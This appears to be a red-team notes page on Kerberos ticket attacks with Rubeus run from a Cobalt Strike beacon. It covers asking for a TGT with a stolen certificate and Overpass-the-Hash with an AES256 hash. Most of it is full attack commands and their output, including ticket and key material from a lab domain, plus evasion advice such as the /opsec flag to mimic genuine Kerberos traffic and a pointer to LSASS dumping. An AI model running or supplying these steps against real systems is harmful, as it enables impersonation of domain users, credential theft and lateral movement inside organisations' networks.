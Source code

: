 ## Ask TGT via certificate
``````beacon
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:nglover /certificate:MIIM5wIBAz[...snip...]dPAgIIAA== /password:password /aes256 /nowrap

[*] Action: Ask TGT

[*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=Isabel Yates, CN=Users, DC=evil, DC=corp 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'evil.corp\nglover'
[+] TGT request successful!
[*] base64(ticket.kirbi):

 doIGNjCCB[...snip...]pYy5pbw==

  ServiceName              :  krbtgt/evil.corp
  ServiceRealm             :  EVIL.CORP
  UserName                 :  nglover
  UserRealm                :  EVIL.CORP
  StartTime                :  1/18/2022 4:38:26 PM
  EndTime                  :  1/19/2022 2:38:26 AM
  RenewTill                :  1/25/2022 4:38:26 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  unJ966veiMXllOu4n88hvAcX/6j71To9JJU5Ec48Pds=
  ASREP (key)              :  6F8361B5177CCC416E67A297C9D61AC975DEAA9E0505DE86657F16EAE9AD8F72
``````

## [[Overpass-the-Hash]]
Rubeus allows us to perform opth without needing elevated privileges. The process to follow is:

-   Request a TGT for the user we want to impersonate.
-   Create a sacrificial logon session.
-   Pass the TGT into that logon session.
-   Access the target resource.

#OPSEC Rubeus also has an `/opsec` argument which tells it to send the request without pre-auth, to more closely emulate genuine Kerberos traffic.

### SHA256
1. Request a hash via [[eKeys]] or [[LSASS dumping]] (not recommended anymore)
2. Ask for a TGT
```````beacon
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:doe /domain:edu.evil.corp /aes256:a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1 /nowrap /opsec

[*] Action: Ask TGT

[*] Using domain controller: dc-2.edu.evil.corp (10.10.17.71)
[*] Using aes256_cts_hmac_sha1 hash: a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1
[*] Building AS-REQ (w/ preauth) for: 'edu.evil.corp\doe'
[+] TGT request successful!
[*] base64(ticket.kirbi):

 [...ticket...]

  ServiceName           :  krbtgt/edu.evil.corp
  ServiceRealm          :  edu.evil.corp
  UserName              :  doe
  UserRealm             :  edu.evil.corp
  StartTime             :  7/9/2022 2:58:21 PM
  EndTime               :  7/10/2022 12:58:21 AM
```````